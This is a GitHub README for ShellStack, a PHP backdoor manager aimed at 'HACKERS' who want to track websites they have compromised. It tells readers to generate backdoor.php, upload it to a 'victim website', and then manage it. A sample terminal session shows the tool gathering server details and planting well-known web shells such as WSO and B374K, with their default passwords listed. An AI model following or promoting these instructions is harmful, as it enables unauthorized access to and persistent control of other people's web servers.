 # ShellStack 
#### Version 1.0
#### Coded By R3D#@X0R_2H1N A.K.A Tuhinshubhra
----
ShellStack is a PHP based backdoor management tool. This Tool comes handy for "HACKERS" who wish to keep a track of every website they hack. The tool generates a backdoor file which you just have to upload to the site and put the backdoor URL in the shells.txt present in the tool's directory.

# With ShellStack You can
- Import PHP Shells
- Get Server Details
- Upload Files From Your System using your terminal
- And Above all You Can Manage Your Backdoors Efficiently

# How To Use
1. `git clone https://github.com/Tuhinshubhra/shellstack`
2. `cd shellstack`
3. `php shellstack.php`
4. `generatebd` and exit the tool use `CTRL + C` - This will generate a backdoor file in the same directory as of the tool in a file named **backdoor.php**
5. Upload The Backdoor File To The Victim website
6. Copy The Backdoor URL and paste it in the **shells.txt** file present in the tool's directory and save it (*Each backdoor is separated by a new line*)
7. `php shellstack.php`
8. Enter The **Serial No** Assigned To The Backdoor
9. Rest is pretty Self explanatory

# Requirements
``` 
php
curl 
```
# Example
```
root@R3D_MACH1N3:/home/redhaxor/Desktop/shellstack# php shellstack.php


________________________________________________________________________________
_______ _     _ _______               _______ _______ _______ _______ _     _
|______ |_____| |______ |      |      |______    |    |_____| |       |____/
______| |     | |______ |_____ |_____ ______|    |    |     | |_____  |    \_
________________________________________________________________________________

                    Simple Backdoor Management System
                    Coded By R3D#@x0R_2H1N A.K.A Tuhinshubhra 
                    Shout Out: LulZSec India  
================================================================================



List Of Backdoors:

0. http://localhost/backdoor.php
=============================================

[#] Enter Either Of These (Backdoor No.|help|generatebd) : 0

[+] Shell Selected: http://localhost/backdoor.php
[+] Validating Backdoor: Backdoor Found!

List Of Actions
================
[1] Import PHP Shells
[2] Server Details
[3] Remove Backdoor
[4] Remote File Upload
[5] Exit

[#] Select Option(1|2|3|4|5):2

[+] Server Info
[i] Sending Request And Getting Response...
[i] Server: Linux R3D_MACH1N3 4.9.0-kali4-amd64 #1 SMP Debian 4.9.30-1kali1 (2017-06-06) x86_64
[i] Server IP: 127.0.0.1


Press Enter To Continue


List Of Actions
================
[1] Import PHP Shells
[2] Server Details
[3] Remove Backdoor
[4] Remote File Upload
[5] Exit

[#] Select Option(1|2|3|4|5):1


List Of Shells
===============
[1] Dhanush shell {User & Pass : shellstack123}
[2] B374K shell {Pass : shellstack123}
[3] Kurama shell V.1.0 {Pass : red}
[4] WSO shell {Pass : shellstack123}
[5] MiNi shell {User & Pass : shellstack123}

[#] Select Shell To Import(1-5):1


[i] Importing Shell...
[i] Sending Request And Getting Response...
[R] Dhanush Shell Imported Successfully To /var/www/html/dhanush.php


Press Enter To Continue


List Of Actions
================
[1] Import PHP Shells
[2] Server Details
[3] Remove Backdoor
[4] Remote File Upload
[5] Exit

[#] Select Option(1|2|3|4|5):5
root@R3D_MACH1N3:/home/redhaxor/Desktop/shellstack# 

```
# Release(s)
> Version 1.0 On 14-06-2017

# screenshots

![Alt text](http://oi68.tinypic.com/2mybzo3.jpg "Screenshot")
![Alt text](http://oi64.tinypic.com/2yycs1t.jpg "Screenshot")
